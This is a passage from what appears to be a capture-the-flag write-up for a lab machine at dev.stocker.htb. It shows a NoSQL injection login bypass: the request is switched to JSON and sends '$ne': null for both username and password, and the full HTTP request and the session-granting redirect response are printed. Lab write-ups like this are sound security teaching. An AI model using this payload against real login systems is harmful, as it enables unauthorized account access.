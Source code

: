 ```text

username=admin&password=admin
```

In URL bypass do not work, when providing a payload such as `Content-Type: application/x-www-form-urlencoded
`.

This payload is specified by the header `Content-Type: application/x-www-form-urlencoded`.
We can change this header by `Content-Type: application/json` to send a JSON payload.

With this change, providing `{"username": {"$ne": null}, "password": {"$ne": null} }` is working.

Here is the modifyed request :

```text
POST /login HTTP/1.1
Host: dev.stocker.htb
Content-Length: 57
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://dev.stocker.htb
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://dev.stocker.htb/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"username": {"$ne": null}, "password": {"$ne": null} }
```

And the response :

```text
HTTP/1.1 302 Found
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 15 May 2023 11:30:38 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 56
Connection: close
X-Powered-By: Express
Location: /stock
Vary: Accept
Set-Cookie: connect.sid=s%3AZdrJlJpicX2Mrkg4F7jJhKBi3RwWw8Tx.j30Hrk7PbNy7eZo%2F3SVWUPcaBbYwKFPBWSIMVITklsw; Path=/; HttpOnly

<p>Found. Redirecting to <a href="/stock">/stock</a></p>
```

This redirect to [http://dev.stocker.htb/stock](http://dev.stocker.htb/stock) :
